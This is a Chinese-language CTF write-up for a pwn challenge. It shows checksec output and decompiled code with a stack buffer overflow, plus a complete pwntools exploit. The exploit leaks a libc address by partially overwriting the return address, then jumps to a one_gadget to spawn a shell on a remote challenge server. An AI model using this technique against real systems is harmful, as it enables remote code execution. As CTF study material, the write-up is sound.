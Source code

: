 # PWN4

这个题没有给libc文件，这是出题人的失误，库版本应该是libc6_2.27-3ubuntu1.2_amd64。

## checksec

```shell
[*] '/home/giantbranch/Desktop/Untitled Folder/pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## ida

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-20h]

  myinit(*(_QWORD *)&argc, argv, envp);
  read(0, &buf, 0x64uLL);
  puts(&buf);
  return 0;
}
```

在主函数中进行栈溢出，main函数最后返回的是_libc_start_main函数，所以通过研究库文件覆盖其低三位为“\x90”,就可以再次回到main，而puts函数会把地址输出，依次来泄露libc基址。

```assembly
.text:0000000000021B90                 mov     rax, [rsp+0B8h+var_A0]
.text:0000000000021B95                 call    rax
```

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"

#p=process('./pwn')
p=remote('chive.vaala.cloud',28083)
elf = ELF('./pwn')
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc=ELF('./libc-2.27.so')

onegadget=0x4f2c5
#0x4f2c5
#0x10a38c
payload='a'*0x20+'a'*8+'\x90'
p.send(payload)
p.recvuntil('a'*40)
ret=u64(p.recv(6).ljust(8, '\x00'))
libcbase=ret+7-231-libc.symbols['__libc_start_main']
print hex(libcbase)

gadget=libcbase+onegadget
sleep(0.5)

payload='a'*0x20+'a'*8+p64(gadget)
p.send(payload)

p.interactive()
```

这里只能使用onegadget，因为puts遇到“\x00”会截断。onegadget可以用脚本自动寻找,例如：

```shell
giantbranch@ubuntu:/lib/x86_64-linux-gnu$ one_gadget -f libc.so.6 
0x45226	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

在这个目录下有一些库：`/lib/x86_64-linux-gnu/`，不过能用到的比较少。